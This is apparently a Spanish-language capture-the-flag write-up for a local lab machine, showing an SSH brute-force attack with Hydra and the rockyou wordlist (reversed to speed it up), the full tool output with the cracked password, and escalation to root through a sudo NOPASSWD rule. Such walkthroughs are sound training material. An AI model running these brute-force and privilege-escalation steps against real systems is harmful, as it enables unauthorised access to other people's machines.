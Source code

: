 # Herramientas
- Nmap
- Gobuster
- Hydra
# Procedimiento
Se realiza el primer escaneo y podemos ver que están abiertos los puertos 22 y 80. Al explorar la página, nos encontramos con esto:
![[Pasted image 20250715000501.png]]
Por lo que podemos suponer que este sería el usuario del SSH.

Luego, como no encontramos nada con Gobuster, procedemos a hacer una fuerza bruta con `rockyou`. 
```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3      
  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organization  
s, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-14 23:46:20  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found  
, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ssh://172.17.0.3:22/  
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 14344271 to do in 1757:53h, 8 active  
[STATUS] 113.67 tries/min, 341 tries in 00:03h, 14344067 to do in 2103:15h, 7 active  
[STATUS] 111.86 tries/min, 783 tries in 00:07h, 14343625 to do in 2137:12h, 7 active  
[STATUS] 110.20 tries/min, 1653 tries in 00:15h, 14342755 to do in 2169:13h, 7 active
```

Sin embargo, después de un largo rato, no ocurre nada, por lo que deberemos ir a la lista donde se encuentra este diccionario y darlo vuelta, para luego eliminarle los espacios extra. Esto se consigue con la siguiente serie de comandos:
```
cd /usr/share/wordlists/
sudo tac rockyou.txt > ~/rockyouinvertido.txt

sed -i 's/ //g' rockyouinvertido.txt
```

Ya con esto listo, podemos lanzar el ataque de fuerza bruta nuevamente:
```bash
hydra -l tails -P rockyouinvertido.txt ssh://172.17.0.3 -I  
  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organization  
s, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-15 00:09:54  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344386 login tries (l:1/p:14344386), ~896525 tries per task  
[DATA] attacking ssh://172.17.0.3:22/  
[22][ssh] host: 172.17.0.3   login: tails   password: 3117548331  
1 of 1 target successfully completed, 1 valid password found  
[WARNING] Writing restore file because 3 final worker threads did not complete until end.  
[ERROR] 3 targets did not resolve or could not be connected  
[ERROR] 0 target did not complete  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-15 00:10:19
```

Luego, entrando en la máquina ocupamos el comando `sudo -l` para saber qué permisos tiene qué usuario:
```bash
sudo -l  
User tails may run the following commands on 03d2314f4c72:  
   (sonic) NOPASSWD: ALL
```

Ya finalizando, ocupamos:
```
sudo -u sonic bash
sudo -l
sudo su
whoami  
root
```

Así conseguimos escalar privilegios ;)